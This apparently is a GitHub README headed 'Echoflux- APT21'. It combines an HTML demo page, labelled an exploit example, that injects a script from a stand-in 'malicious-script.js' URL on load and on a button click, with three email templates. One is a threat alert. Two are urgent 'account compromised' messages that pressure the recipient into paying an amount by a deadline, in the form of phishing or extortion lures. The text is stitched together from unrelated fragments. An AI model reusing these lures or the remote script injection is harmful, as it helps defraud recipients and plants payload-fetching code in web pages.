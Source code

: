 # Echoflux-
APT21 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>

<h2 id='vulnerable'>Vulnerability Exploit Example (DON'T RUN THIS ON YOUR MACHINE)</h2>


<script src = "https://example.com/malicious-script.js"></script>

<p>This is an example of a vulnerable website.</p>

<div class="dark-mode">
    <button onclick="document.body.classList.add('light')">Light Mode</button>
    <button id='mal' onclick="
        var script=document.createElement('script');
            script.src = 'https://example.com/malicious-script.js';
            document.head.appendChild(script);
">Malware Link

      </div>

  <style>
   .dark-mode {
       background-color: #000;
       color:#fff;

    }
     body.light{
        transition: all 0.5s ease-in-out;
         transform-origin:left top ;
          -webkit-transition-timing-function:cubic-bezier(0,1,.47,1);
           box-shadow: none !important; 
            background-color : #ffffff !important ;  
              color:#000
               }
     body.light p{
        transition: all 0.5s ease-in-out;
         transform-origin:left top ;
          -webkit-transition-timing-function:cubic-bezier(0,1,.47,1);
           box-shadow: none !important; 
            background-color : #ffffff !important ;  
              color:#000
               }
      body.light h2{
        transition: all 0.5s ease-in-out;
         transform-origin:left top ;
          -webkit-transition-timing-function:cubic-bezier(0,1,.47,1);
           box-shadow: none !important; 
            background-color : #ffffff !important ;  
              color:#000
               }
    </style>
</body>
</html>
EchoFlux Alert
Subject: EchoFlux APT Group Activity Detected
Dear [Recipient],
We have detected potential activity from the EchoFlux (APT21) group, a highly sophisticated threat actor targeting finance and banking institutions. Our monitoring systems indicate that their tactics may include:
Spear phishing campaigns
Zero-day exploits on financial software
Social engineering attacks on IT staff
Key Indicators of Compromise:
1. Unusual login attempts from unfamiliar addresses IP
2). Malware infections on high-risk devices (e.g., servers, workstations)
3). Data exfiltration via encrypted channels
If you suspect any malicious activity or have concerns regarding your organization's security posture, please contact our incident response team immediately.
Recommendations:
Conduct a thorough review of all login attempts and system logs.
Implement additional authentication measures for sensitive areas.
Consider implementing an Incident Response Plan to ensure prompt action in case of an attack.
Best regards,

Secure Payment Options:
Dear [Recipient],
We understand that the recent EchoFlux attack has caused significant financial losses. To help you recover, we're offering a secure and convenient way to make payments.
Available Payment Methods:
1. Credit Card (Visa/Mastercard/Amex) via Stripe
2). PayPal for seamless online transactions
To initiate payment:
Click on the "Make Payment" button below
Select your preferred payment method from the dropdown menu
Enter your details accurately and securely in the designated fields
Payment Details:
1. Amount to be paid:** [Amount]
2). Payment deadline:** [Deadline]
If you have any questions or concerns, please don't hesitate to reach out. Our dedicated support team is here to assist you.
Best regards,

URGENT: Your Account Has Been Compromised
Dear [Recipient],
IMMEDIATE ACTION REQUIRED
We have reason to believe that your account has been targeted by the EchoFlux group. To prevent further unauthorized access and potential financial losses, we urge you to take immediate action.
SECURE PAYMENT OPTION:
1. Credit Card (Visa/Mastercard/Amex) via Stripe
2). PayPal for seamless online transactions
To make a secure payment:
Click on the "Make Payment" button below
Select your preferred payment method from the dropdown menu
Enter your details accurately and securely in the designated fields
Payment Details:
1. Amount to be paid:** [Amount]
2). Payment deadline:** [Deadline]
If you have any questions or concerns, please don't hesitate to reach out. Our dedicated support team is here to assist you.
Best regards,


